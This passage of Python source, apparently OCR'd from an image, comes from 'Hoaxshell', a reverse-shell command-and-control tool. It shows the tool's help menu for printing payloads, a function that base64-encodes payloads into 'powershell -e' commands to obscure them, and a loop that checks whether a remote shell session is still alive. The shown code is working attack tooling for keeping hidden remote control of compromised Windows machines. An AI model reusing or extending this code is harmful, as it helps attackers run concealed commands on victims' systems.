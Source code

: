 
def promptHelpMsg():
	print(
	'''
	\r  Command              Description
	\r  -------              -----------
	\r  help                 Print this message.
	\r  payload              Print payload (base64).
	\r  rawpayload           Print payload (raw).
	\r  cmdinspector         Turn Session Defender on/off.
	\r  clear                Clear screen.
	\r  exit/quit/q          Close session and exit.
	''')



def encodePayload(payload):
	enc_payload = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
	return enc_payload



def is_valid_uuid(value):

    try:
        uuid.UUID(str(value))
        return True

    except ValueError:
        return False



def checkPulse(stop_event):

	while not stop_event.is_set():

		timestamp = int(datetime.now().timestamp())
		tlimit = frequency + 10

		if Hoaxshell.execution_verified and Hoaxshell.prompt_ready:
			if abs(Hoaxshell.last_received - timestamp) > tlimit:
				print(f'\r[{WARN}] Session has been idle for more than {tlimit} seconds. Shell probably died.')
				Hoaxshell.prompt_ready = True
				stop_event.set()

		else:
			Hoaxshell.last_received = timestamp
			
		sleep(5)


# ------------------ Settings ------------------ #
prompt = "hoaxshell > "
quiet = True if args.quiet else False
frequency = args.frequency if args.frequency else 0.8
stop_event = Event()
t_process = None
